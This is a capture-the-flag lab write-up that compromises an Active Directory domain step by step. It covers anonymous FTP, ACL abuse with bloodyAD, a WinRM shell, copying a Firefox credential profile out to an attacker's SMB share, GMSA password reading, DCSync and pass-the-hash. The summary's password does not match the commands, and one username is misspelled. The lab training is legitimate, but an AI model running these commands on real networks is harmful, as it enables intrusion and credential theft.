# Lab Report - StellarComms


# Overview 
---
- **Difficulty**: Medium
- **Platform**: Windows - Active Directory
- **Link**: https://www.hacksmarter.org/courses/e0f57d12-2c23-4d6a-8c55-b85010526e52

## Resolution Summary 
---
Having only a username (`junior.analyst`) at our disposition, we investigated an FTP server which accepted anonymous login, allowing us to retrieve documents that mentioned an internal web portal and the default password (`Galaxy2026!`). Using our given username and the default password, we gained access to the domain. Afterwards, we abused `WriteOwner` over the  `StellarOps-Control` group to gain `GenericAll` on the group and then add ourselves to it. Next, we abused `ForceChangePassword` on the `ops.controller` user, which permitted us to gain a shell access on the DC. Furthermore, we exfiltrated the Firefox profile of the `ops.controller` user and decrypted the stored credentials, allowing us to compromise the `æstro.researcher` user. With that user, we abused `WriteDacl` over the `eng.payload` user to grant us `GenericAll` over him then reset its password. Following that, we could use `eng.payload` to read the GMSA password of the `SATLINK-SERVICE$` machine, allowing us to recover its NT hash. Finally, using these newly discovered credentials we were able to perform a DCSync and retrieve the domain admin's NTLM hash, successfully compromising the domain.

# Walkthrough
---
- To begin with, we performed an Nmap scan to reveal open ports on the target. We found that an FTP and HTTP servers were available: 
```bash
sudo nmap 10.1.49.52 -p- -vv
```
<p align="center">
  
</p>

- We were able to access the FTP server using anonymous login. After switching to binary mode, we downloaded two files that held sensitive information: 
```bash
ftp 10.1.49.52 21
binary
cd Docs
get Stellar_UserGuide.pdf
get Transmission_Schedule.txt
```
<p align="center">
  
</p> 

- Upon inspecting both files, we uncover respectively a default password for users and a domain name for a web application:
<p align="center">
  
</p>
<p align="center">
  
</p>

- Being provided with the `junior.analyst` username, we tested the default password we found and gained a credentialed access to the AD domain: 
```bash
nxc smb 10.1.49.52 -u 'junior.analyst' -p 'Galaxy123!'
```
<p align="center">
  
</p>

- Having a foothold on the domain, we decided to collect bloodhound data in order to discover any attack path that would help us further our access into the domain: 
```bash
nxc ldap 10.1.49.52 -u 'junior.analyst' -p 'Galaxy123!' --bloodhound --collection all --dns-server 10.1.49.52
```
<p align="center">
  
</p>

- We uncovered the following exploitation chain, that would allow us to gain a shell access on the DC: 
<p align="center">
  
</p>
<p align="center">
  
</p>

- First, we can abuse `WriteOwner` over the `Stellarops-control` group to become the owner of the group: 
```bash
bloodyad -H 10.1.49.52 -d stellarcomms.local -u junior.analyst -p 'Galaxy123!' set owner StellarOps-Control junior.analyst
```
<p align="center">
  
</p>

- Now that we are the owner of the group, we can grant ourselves privileges such as `GenericAll` over the group (which will allow us to add members):
```bash
bloodyad -H 10.1.49.52 -d stellarcomms.local -u junior.analyst -p 'Galaxy123!' add genericAll StellarOps-Control junior.analyst
``` 
<p align="center">
  
</p>

- Finally, we can add ourselves to the group: 
```bash
bloodyad -H 10.1.49.52 -d stellarcomms.local -u junior.analyst -p 'Galaxy123!' add groupMember StellarOps-Control junior.analyst
```
<p align="center">
  
</p>

- Now that we are part of the group, we can abuse `ForceChangePassword` over `ops.controller`:
```bash
bloodyad -H 10.1.49.52 -d stellarcomms.local -u junior.analyst -p 'Galaxy123!' set password ops.controller 'Password123!'
```
<p align="center">
  
</p>

- Knowing that `ops.controller` is a member of the `Remote Management Users` group, we could use WinRM to gain a shell access on the DC:
```bash
evil-winrm -i 10.1.49.52 -u ops.controller -p 'Password123!'
```
<p align="center">
  
</p>

- We retrieved the first flag: 
```powershell
cat C:\Users\ops.controller\Desktop\user.txt
```
<p align="center">
  
</p>

- We discovered a Firefox profile directory for our current user, which holds encrypted credentials. Therefore, we decided to transfer the profile directory to our attacking machine first.

- We set up an SMB server: 
```bash
smbserver.py -smb2support share /tmp/test -debug
```

- We mount the SMB share on a new drive on the target machine: 
```powershell
net use n: \\10.200.115.170\share
```

- Finally, we copy the Firefox directory profile:
	- It may take some time (~3 minutes)
```powershell
copy C:\Users\ops.controller\AppData\Roaming\Mozilla\Firefox\Profiles\v8mn7ijj.default-esr n:\ -Recurse
```
<p align="center">
  
</p>

- Finally, we can decrypt the secrets and recover credentials for the `astro.researcher` user:
```bash
python3 firefox_decrypt.py /tmp/test/v8mn7ijj.default-esr
```
<p align="center">
  
</p>

- We validated the credentials with Netexec: 
```bash
nxc smb 10.1.49.52 -u 'astro.researcher' -p 'Cosmos@42'
```
<p align="center">
  
</p>

- Using Bloodhound, we uncovered an exploitation chain that would allow us to ultimately perform a DCSync attack starting from our newly compromised user: 
<p align="center">
  
</p>

- First, we can abuse `WriteDacl` over the `eng.payload` user to grant ourselves `genericAll` over that user:
```bash
bloodyad -H 10.1.49.52 -d stellarcomms.local -u 'astro.researcher' -p 'Cosmos@42' add genericAll eng.payload astro.researcher
```
<p align="center">
  
</p>

- Having `genericAll` over `eng.payload`, we can change its password to fully compromise him: 
```bash
bloodyad -H 10.1.49.52 -d stellarcomms.local -u 'astro.researcher' -p 'Cosmos@42' set password eng.payload 'Password123!'
```
<p align="center">
  
</p>

- Next, we abuse `ReadGMSAPassword` to collect the NTLM hash of the computer `SATLINK-SERVICE$`:
```bash
bloodyad -H 10.1.49.52 -d stellarcomms.local -u eng.payload -p 'Password123!' msldap gmsa
```
<p align="center">
  
</p>

- Finally, we can perform a DCSync and dump NTDS.dit:
	- Note that we used a dummy LM hash, as secretsdump requires the `LM:NT` format when passing a hash.
```bash
secretsdump.py -just-dc stellarcomms.local/'SATLINK-SERVICE$'@10.1.49.52 -hashes aad3b435b51404eeaad3b435b51404ee:65d3076593d2f83ee9606253049ec372
```
<p align="center">
  
</p>

- Using the NTLM hash of the Administrator user (which is also Domain Admin), we access a WinRM session and retrieve the last flag:
```bash
evil-winrm -i 10.1.49.52 -u Administrator -H d3a97bfa75ebed92165ea2d67cd21002
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>

# Trophy 
---
**User.txt → `FLAG[Stellar_Link_Orbit_442km]`** 

**Root.txt → `FLAG[OrbitMaster_Access_Granted]`**

# Lessons Learned
---
- Always use the `binary` command on FTP servers to switch to binary mode for file transfers.
	- Using ASCII mode may result in corrupted files.

- Some tools may require both LM and NT hashes. A workaround is to provide a dummy LM hash, as it won't matter.
	- example LM hash: `aad3b435b51404eeaad3b435b51404ee`

